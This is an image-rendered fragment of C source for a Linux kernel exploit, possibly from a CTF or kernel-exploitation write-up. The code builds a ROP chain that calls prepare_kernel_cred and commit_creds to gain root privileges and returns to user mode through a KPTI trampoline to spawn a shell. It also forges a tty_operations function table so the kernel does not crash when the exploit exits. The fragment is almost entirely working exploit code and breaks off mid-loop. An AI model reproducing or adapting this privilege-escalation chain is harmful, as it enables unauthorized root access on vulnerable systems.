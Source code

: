 ```c
    uint64_t base = 0x41;
    uint64_t *curr = (uint64_t *)&msg.mtext[0];
    for (size_t i = 0; i < 25; i++) {
        uint64_t fill = base << 56;
        fill |= base << 48;
        fill |= base << 40;
        fill |= base << 32;
        fill |= base << 24;
        fill |= base << 16;
        fill |= base << 8;
        fill |= base;
        
        *curr++ = fill;
        base++; 
    }

    // ROP chain
    uint64_t *rop = (uint64_t *)&msg.mtext[0];
    *rop++ = pop_rdi; 
    *rop++ = 0x0;
    *rop++ = prepare_kernel_cred; // RAX now holds ptr to new creds
    *rop++ = xchg_rdi_rax; // Place creds into RDI 
    *rop++ = commit_creds; // Now we have super powers
    *rop++ = kpti_tramp;
    *rop++ = 0x0; // pop rax inside kpti_tramp
    *rop++ = 0x0; // pop rdi inside kpti_tramp
    *rop++ = (uint64_t)pop_shell; // Return here
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = user_sp;
    *rop   = user_ss;

    /* struct tty_operations {
        struct tty_struct * (*lookup)(struct tty_driver *driver,
                struct file *filp, int idx);
        int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
        void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
        int  (*open)(struct tty_struct * tty, struct file * filp);
        void (*close)(struct tty_struct * tty, struct file * filp);
        void (*shutdown)(struct tty_struct *tty);
        void (*cleanup)(struct tty_struct *tty);
        int  (*write)(struct tty_struct * tty,
                const unsigned char *buf, int count);
        int  (*put_char)(struct tty_struct *tty, unsigned char ch);
        void (*flush_chars)(struct tty_struct *tty);
        unsigned int (*write_room)(struct tty_struct *tty);
        unsigned int (*chars_in_buffer)(struct tty_struct *tty);
        int  (*ioctl)(struct tty_struct *tty,
                unsigned int cmd, unsigned long arg);
        ...
    } */

    // Populate the 12 function pointers in the table that we have created.
    // There are 3 handlers that are invoked for allocated tty_structs when 
    // their controlling process exits, they are close(), shutdown(),
    // and cleanup(). We have to overwrite these pointers for when we exit our
    // exploit process or else the kernel will panic with a RIP of 
    // 0xdeadbeefdeadbeef. We overwrite them with a simple ret gadget
    uint64_t *func_table = (uint64_t *)&msg.mtext[rop_len];
    for (size_t i = 0; i < 12; i++) {
        // If i == 4, we're on the close() handler, set to ret gadget
        if (i == 4) { *func_table++ = ret; continue; }

```